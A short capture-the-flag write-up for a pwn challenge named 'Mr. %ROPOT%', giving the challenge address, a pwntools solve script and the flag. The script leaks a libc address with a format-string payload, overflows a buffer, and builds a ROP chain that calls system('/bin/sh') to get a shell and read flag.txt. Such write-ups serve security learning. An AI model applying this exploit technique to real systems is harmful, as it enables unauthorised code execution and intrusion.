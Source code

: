 # Mr. %ROPOT%

>Would you like some joke or fact? Don't forget to leave a review!

https://pearlctf.in/files/mrropot.zip

nc mr---ropot.ctf.pearlctf.in 30009


## solve
```
from pwn import *

elf = ELF("./chall_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)
p = remote("mr---ropot.ctf.pearlctf.in", 30009)

p.sendlineafter(b"Exit\n", b"1")
p.sendlineafter(b"Leave a response: \n", b"%17$p")
p.readuntil(b"Your Response:\n")
leak = int(p.readline().decode(), 16)
libc.address = leak - 0x2a1ca

p.sendline(b"2")
p.readuntil(b"Leave a response: \n")

rop = ROP(libc)
rop.raw(b"A" * 0x38)
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
p.sendline(rop.chain())

p.readuntil(b"recorded.\n")
p.sendline(b"/bin/cat flag.txt")
print(p.readuntil(b"}").decode())
```

## flag
`pearl{fin4lly_g0t_my_fl4g_th4nks_printf}`